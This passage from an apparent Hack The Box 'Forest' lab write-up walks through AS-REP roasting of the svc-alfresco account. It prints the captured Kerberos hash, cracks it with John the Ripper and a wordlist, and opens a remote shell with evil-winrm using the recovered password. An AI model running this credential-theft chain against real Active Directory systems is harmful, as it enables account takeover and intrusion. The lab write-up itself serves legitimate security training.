 The Kerberos pre-authentication option has been disabled for the user _svc-alfresco_ and the KDC gave us back a TGT encrypted with the user’s password.

Save the encrypted TGT in the file _hash.txt_.

```text
root@kali:~/Desktop/htb/forest# cat hash.txt                                                                
$krb5asrep$svc-alfresco@HTB:4ca6507622ec86fa1a1c8e6ed6c9070f$670b846a8ba6ee243b9cad85657328fdf5624df615750cf3eeaa364b04ae9225ecaff4cf8994bb71fd4c07c9d406c6c30b1a1f899bde7bb9eb4df3e83fa07fc4405994a1bbd7a9fb6105342f78e5ca1ae8797b136f1eaecebd11eefeec83062b0142081208ef51cc17cbecf1fa7a88fad24aee856a539668fb3b9eae917cb6efb57df72a533f893c715bb0216f63c6df345e66fe66777ecfe98c8b516c905d4a81c7e6a4b5d3a3779ddf1ccad98e062f9bfc40596b24bd7685892f4ce22d44dcbf9aa2594748f81e2b7cc369390fab61d8cc7e5eeb2b987e4e52c9fab5f9a184
```

Crack the password using John the Ripper.

```text
john  --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

We get back the following result showing us that it cracked the password.

```text
root@kali:~/Desktop/htb/forest# john --show hash.txt 
$krb5asrep$svc-alfresco@HTB:s3rvice1 password hash cracked, 0 left
```

## Initial Foothold <a id="8fca"></a>

Now that we have the username/password _svc-alfresco/s3rvice_, we’ll use the [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) script to gain an initial foothold on the box. This is only possible because the WinRM and WSMan services are open \(refer to nmap scan\).

```text
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

We get a shell!

![](../images/max/1110/1*z9cX5m0BZ6YETlAfQZW0HA.png)

Grab the _user.txt_ flag.

![](../images/max/760/1*DiohUDdApVjdCwjQlOkuIA.png)
